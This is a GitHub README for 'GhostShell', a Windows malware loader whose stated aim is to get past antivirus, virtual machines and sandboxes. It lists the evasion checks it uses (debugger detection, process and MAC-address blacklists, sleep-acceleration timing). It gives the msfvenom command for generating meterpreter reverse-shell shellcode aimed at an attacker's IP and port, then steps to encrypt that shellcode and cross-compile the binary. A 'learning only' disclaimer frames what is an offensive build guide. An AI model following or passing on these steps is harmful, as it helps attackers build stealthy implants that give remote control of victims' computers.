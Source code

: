 <div align="center">
  <h1 align="center"> GhostShell </h1>
  <p align="center"> In this malware, are used some techniques to try bypass the AVs, VMs, and Sandboxes, with only porpuse to learning more. I'm not responsible for your actions. </p>


  <p align="center"> 
    <img alt="license" src="https://img.shields.io/github/license/ReddyyZ/GhostShell"/>
    <img alt="last-commit" src="https://img.shields.io/github/last-commit/ReddyyZ/GhostShell"/>
    <img alt="made-by" src="https://img.shields.io/badge/made%20by-ReddyyZ-red"/>
    <img alt="size" src="https://img.shields.io/github/repo-size/ReddyyZ/GhostShell"/>
    <img alt="binary-size" src="https://img.shields.io/badge/binary%20size-46%2C8%20KB-blue"/>
  </p>
  <p align="center">
    <a href="https://github.com/ReddyyZ"> <img alt="followers" src="https://img.shields.io/github/followers/ReddyyZ?style=social"/> </a>
    <a href="https://github.com/ReddyyZ/GhostShell/stargazers"><img alt="stars" src="https://img.shields.io/github/stars/ReddyyZ/GhostShell?style=social"/></a>
    <a href="https://github.com/ReddyyZ/GhostShell/network/members"><img alt="forks" src="https://img.shields.io/github/forks/ReddyyZ/GhostShell?style=social"/> </a>
    <a href="https://github.com/ReddyyZ/GhostShell/watchers"><img alt="watchers" src="https://img.shields.io/github/watchers/ReddyyZ/GhostShell?style=social"/> </a>
  </p>
  
</div>

<p align="center">
  <a href="#bomb-bypass-techniques"> Bypass Techniques </a> |
  <a href="#radioactive-generating-the-shellcode"> Generating the Shellcode </a> |
  <a href="#:computer:-how-to-compile-for-windows-on-linux"> How to compile for Windows on Linux </a>
</p>


- ## :bomb: Bypass Techniques

### **Anti-Debugger**

To try bypass the Debuggers, I'm using the "IsDebuggerPresent()" of "Windows.h" librarie to checks if a debugger is running.

### **Anti-VM / Anti-Sandbox**

- **Enumerate Process Function**

  Enumerates all process running on the system, and compares to the process in the black-list, if found a process and this is equal to any process in the black-list returns -1 (identified).

- **Sleep Acceleration Check Function**

  First, gets the current time, and sleeps 2 minutes, then, gets the time again, and compare, if the difference is less than 2, returns -1 (identified).

- **Mac Address Check Function**

  Gets the system mac address and compare to the macs, in the black-list, if the system mac address is equal to any mac in the black-list returns -1 (identified).


- ## :radioactive: Generating the Shellcode
![Generating](/assets/generating%20shellcode.gif)

To generate the shellcode type in the terminal: ``` msfvenom -p windows/meterpreter/reverse_shell lhost=(IP) lport=(PORT) -f c ```, copy the shellcode generated and encrypt it.                                                                                                 

To encrypt shellcode use the encrypt_shellcode script.                                                                                   
On linux type: ``` ./encrypt_shellcode e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(shellcode)"" ```                                      
On windows type: ``` encrypt_shellcode.exe e "(KEY, ex: "\xda\xe6\x1d\x5c\x9v\x8d") "(shellcode)"" ```


- ## :computer: How to compile for Windows on Linux

To compile for Windows on Linux, first, install mingw-w64: ``` sudo apt-get install mingw-w64 ```, then, to compile for 32 bits: ``` i686-w64-mingw32-gcc -o main.exe main.c -l psapi -static ```, and to 64 bits: ``` x86_64-w64-mingw32 -o main.exe main.c -l psapi -static ```
